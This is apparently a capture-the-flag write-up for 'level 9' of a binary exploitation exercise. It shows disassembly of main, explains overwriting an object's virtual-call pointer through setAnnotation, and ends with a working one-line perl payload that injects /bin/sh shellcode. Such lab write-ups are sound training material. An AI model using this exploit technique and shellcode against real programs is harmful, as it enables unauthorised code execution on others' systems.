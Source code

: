 # level 9

## asm

```
080485f4 <main>:
                        [...]
 804862e:	89 5c 24 1c          	mov    DWORD PTR [esp+0x1c],ebx
 8048632:	c7 04 24 6c 00 00 00 	mov    DWORD PTR [esp],0x6c
 8048639:	e8 f2 fe ff ff       	call   8048530 <_Znwj@plt>
 804863e:	89 c3                	mov    ebx,eax
                        [...]
 8048650:	89 5c 24 18          	mov    DWORD PTR [esp+0x18],ebx
                        [...]
 804865c:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 8048660:	89 44 24 10          	mov    DWORD PTR [esp+0x10],eax
                        [...]
 804867c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]
 8048680:	8b 00                	mov    eax,DWORD PTR [eax]
 8048682:	8b 10                	mov    edx,DWORD PTR [eax]
                        [...]
 8048693:	ff d2                	call   edx
                        [...]
```

## goal:

By examining the assembly code we find out that a call is made to a pointer address pointed by the value stored at the begining of v4.
Using v6->setAnnotation we overwrite the pointer at the beginning of v4 with the address of v6 buffer. There we put the address of 4 char farther
where we put our shellcode.

## the hack:

./level9 $(perl -e 'print "\x10\xa0\x04\x08" . "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A" x 80 . "\x0c\xa0\x04\x08"') ; cat
